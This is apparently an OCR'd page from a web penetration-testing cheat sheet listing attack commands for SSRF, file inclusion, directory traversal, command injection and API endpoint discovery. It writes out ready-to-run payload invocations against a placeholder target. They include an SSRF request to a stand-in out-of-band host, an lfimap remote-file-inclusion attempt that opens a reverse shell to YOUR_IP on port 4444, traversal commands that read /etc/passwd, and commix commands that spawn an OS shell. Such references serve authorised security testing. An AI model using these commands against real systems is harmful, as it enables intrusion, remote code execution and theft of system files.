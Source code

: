     
    :- Start Interactsh client for OOB interactions
    interactsh-client
    
    :- Manual SSRF test with Interactsh
    curl -X POST -d "url=http://YOUR_INTERACTSH_ID.oastify.com" https://target.com/proxy 

    
    :- Inject SSRF payloads from file and check status
    qsreplace "http://target.com/proxy?url=FUZZ" -a "ssrf_payloads.txt" | httpx -silent -status-code -mc 200 

### File Inclusion (LFI/RFI)    
    :- Test LFI and RFI, attempt reverse shell
    lfimap -u 'https://target.com/page?file=FUZZ' --rfi --lhost YOUR_IP --lport 4444 
    
    :- Heuristic-based LFI detection
    lfimap -u 'https://target.com/download?path=FUZZ' --heuristics --level 2
    
    :- Use custom LFI wordlist
    lfimap -u 'https://target.com/include.php?page=FUZZ' -w /usr/share/wordlists/wfuzz/general/lfi.txt 

    
    :- Directory traversal tool
    dotdotpwn -m http -h target.com -u "/scripts/download.php?file=TRAVERSAL" -k "root:" -o dotdotpwn_results.txt 
    
    :- Standard traversal, look for /etc/passwd
    dotdotpwn -m http -h target.com -f /etc/passwd -s

### Command Injection    
    :- Test command injection, run whoami
    commix -u "https://target.com/cmd.php?command=FUZZ" --os-cmd "whoami"
    
    :- POST based, get OS shell
    commix --url="https://target.com/exec?host=127.0.0.1" --data="host=127.0.0.1&submit=submit" -p host --os-shell 
    
    :- Test all injectable parameters from a request file
    commix -r request.txt -p param_to_inject --all

## API TESTING (REST, GraphQL, SOAP)

### REST API Testing    
    :- API endpoint brute force, 10 extensions deep
    kiterunner -w api_routes.txt -u https://target.com/api -A discovery -x 10 -o kiterunner_scan.txt 
    
    :- Scan using Kiterunner's format
    kiterunner scan -U https://api.target.com -w routes-large.kite --max-api-depth 5 -o kite_depth5.txt 
    
    :- Recon mode on a list of hosts
    kiterunner recon -A assetnote_wordlist/kiterunner/routes-large.kite -s hosts.txt -o kite_recon.txt 

### (arjun used previously for general param discovery, also applicable here)    
    :- API GET parameter discovery
    arjun -u https://api.target.com/v1/users --include='application/json' -m GET -o arjun_api_get.json 
    